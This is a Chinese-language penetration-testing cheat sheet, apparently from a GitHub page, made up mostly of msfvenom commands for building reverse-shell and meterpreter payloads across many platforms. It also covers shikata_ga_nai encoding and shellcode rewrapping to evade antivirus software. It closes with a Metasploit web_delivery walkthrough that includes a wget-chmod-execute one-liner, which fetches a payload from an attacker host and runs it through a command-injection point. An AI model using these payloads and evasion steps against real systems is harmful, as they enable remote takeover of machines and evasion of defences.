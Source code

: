 ```bash
# 不进行编码处理
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_CC_SERVER_IP LPORT=YOUR_CC_SERVER_PORT  -f exe -o payload.exe

msfvenom --platform linux -a x86 -p linux/x86/meterpreter/reverse_tcp  -f elf -o payload.elf

msfvenom --platform osx -a x86 -p osx/x86/shell_reverse_tcp -f macho -o payload.macho

msfvenom -p android/meterpreter/reverse_tcp -o payload.apk

msfvenom --platform windows-p windows/meterpreter/reverse_tcp  -f aspx -o payload.aspx

msfvenom --platform java -p java/jsp_shell_reverse_tcp  -f raw -o payload.jsp

msfvenom -p php/meterpreter_reverse_tcp -f raw -o payload.php

msfvenom -p cmd/unix/reverse_bash -f raw -o shell.sh

msfvenom -p python/meterpreter/reverse_tcp -f raw -o shell.py



# 进行编码处理 msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式  -i编码次数 -f 输出格式 -o 输出文件 
# shikata_ga_nai 是非常好用的编码方案，但容易被检测
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=YOUR_CC_SERVER_IP  LPORT=YOUR_CC_SERVER_PORT  -e x86/shikata_ga_nai -i 20 -f exe -o payload.exe

msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 -b ‘\x00’ lhost=192.168.137.44 lport=4444 -f c -o shell.c
```

由于上述方法编码后的代码并不能很好的绕过杀软等防御技术，攻击者可能会尝试对生成的shellcode 再编码的方式，例如先生成一个含有shellcode 的python脚本，然后利用pyinstaller 、py2exe或其它方法将其再生成exe文件。

又例如将shellcode生成c文件，然后再放入一个c文件中，包装一层。

##### msf web_delivery

msfconsole有一个exploit (multi/script/web_delivery)，提供由web注入载荷的方法。如果web页面有os 命令执行漏洞或其它相关功能，那么可以尝试。

例如：
```
msf>use multi/script/web_delivery
msf>set LHOST CC服务器IP地址
msf>set target 目标系统例如linux或windows
msf>set payload 最好位meterpreter reverse_tcp
msf>run 

# 正常会给出一个命令串，如：
Run the following command on the target machine:
wget -qO 1S7w1axQ --no-check-certificate http://10.10.10.152:8080/XK9DL7hxpeaS6; chmod +x 1S7w1axQ; ./1S7w1axQ& disown

```
在有漏洞的命令注入点键入`wget -qO 1S7w1axQ --no-check-certificate http://10.10.10.152:8080/XK9DL7hxpeaS6; chmod +x 1S7w1axQ; ./1S7w1axQ& disown`，即可获得反弹shell。权限通常不低（视web site或容器的权限）。
